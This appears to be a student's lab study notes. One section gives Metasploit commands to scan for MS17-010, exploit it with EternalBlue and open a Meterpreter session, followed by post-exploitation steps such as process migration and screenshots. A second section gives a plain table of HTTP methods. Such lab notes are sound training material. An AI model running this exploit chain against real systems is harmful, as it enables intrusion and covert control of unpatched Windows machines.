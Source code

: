 ### Checks if the target is vulnerable to MS17-010

```shell
msfconsole
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS [TARGET_IP]
run
```

### EternalBlue exploit

```shell
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [TARGET_IP]
set LHOST [LOCAL_IP]
exploit
```

### Meterpreter Session
```shell
meterpreter > sysinfo   
meterpreter > ps            
meterpreter > migrate 4536   
meterpreter > screenshot      
```
## HTTP 

![URL BREAKDOWN](tryhackme/url.png)


### HTTP Request Methods

| Method  | Description                                                                 |
|---------|-----------------------------------------------------------------------------|
| GET     | Used for getting information from a web server.                            |
| POST    | Used for submitting data to the web server and potentially creating records. |
| PUT     | Used for submitting data to update existing information on a web server.   |
| DELETE  | Used for deleting information or records from a web server.                |
